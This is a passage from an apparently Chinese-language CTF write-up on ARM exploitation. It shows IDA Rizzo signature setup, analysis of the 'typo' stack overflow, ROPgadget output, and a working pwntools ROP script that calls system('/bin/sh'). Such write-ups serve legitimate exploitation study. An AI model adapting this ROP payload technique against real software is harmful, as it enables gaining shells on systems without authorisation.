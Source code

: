 使用rizzo插件：

https://github.com/fireundubh/IDA7-Rizzo

放入：C:\Program Files\IDA 7.0\plugins

（3）用IDA打开libc-2.23.so

导出libc.23.so.riz:

File->Produce file->Rizzo signature file

（4）打开目标程序

加载.riz:

File->Load file->Rizzo signature file

## 题目分析

### typo题目分析

题目是简单的栈溢出，但是溢出的函数找了半天，后来根据随机产生的字符串查找，下图中红色部分在IDA的流程里没有识别出来，导致以为main函数已经结束了，而溢出的部分正是在红色部分。

![img](D:\github\De4dCr0w.github.io\image\2020-07-20-arm-pwn学习\3.png)

![img](D:\github\De4dCr0w.github.io\image\2020-07-20-arm-pwn学习\4.png)

溢出函数（0xbd24）：

![img](D:\github\De4dCr0w.github.io\image\2020-07-20-arm-pwn学习\5.png)

使用read的系统调用：

![img](D:\github\De4dCr0w.github.io\image\2020-07-20-arm-pwn学习\6.png)

因为栈不可执行，寻找rop链，要控制r0寄存器：

```c
pi@raspberrypi:~/study/arm/typo $ ROPgadget --binary ./typo --only "pop"
Gadgets information
============================================================
0x00008d1c : pop {fp, pc}
0x00020904 : pop {r0, r4, pc}
```

找到0x20904，将“/bin/sh”地址赋给r0，并将system的地址赋给pc，就可以执行system("/bin/sh")

```python
from pwn import *
context.log_level = 'debug'

payload = "A"*112 + p32(0x20904) + p32(0x6c384)*2 + p32(0x110b4)
p = process("./typo")
p.recvuntil("quit")
p.send("\n")
p.recvuntil("----")
p.sendline(payload)
p.interactive()
```
